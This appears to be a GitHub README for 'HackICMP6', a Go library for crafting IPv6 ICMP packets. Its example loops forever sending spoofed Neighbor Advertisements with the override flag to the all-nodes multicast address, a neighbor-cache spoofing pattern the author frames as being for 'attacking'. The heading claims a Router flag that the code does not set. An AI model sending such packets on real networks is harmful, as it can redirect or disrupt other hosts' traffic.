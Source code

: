 ## HackICMP6

### Go package to mess with IPv6 ICMP packets

#### Example Neighbor Advertisement with Router flag set

`import github.com/BobBurns/hackicmp6/hi6`

```go

	t := hi6.ICMP6{
		Iface:      os.Args[1],
		DstIP:      "ff02::1",
		SrcIP:      "fe80::dead:beef",
		SrcMAC:     "10:0b:a9:ba:aa:ad",
		DstMAC:     "33:33:00:00:00:01",
		Type:       hi6.ICMPTypeNeighborAdvertisement,
		Code:       0,
		NA_Flags:   hi6.NA_FLAG_OVERRIDE,
		TargetAddr: "fe80::3",
	}

	err := t.BuildICMPPacket()
	if err != nil {
		fmt.Println("errors found...")
		fmt.Println(err)
		fmt.Println("exiting.")
		os.Exit(-1)
	}
	for {
		fmt.Printf(".")
		err = t.Send()
		if err != nil {
			fmt.Println(err)
			os.Exit(-1)
		}
		time.Sleep(time.Duration(1 * time.Second))
	}
```

For more examples see examples/

I would like to add Extention Header support as well as pcap listener for funner attacking



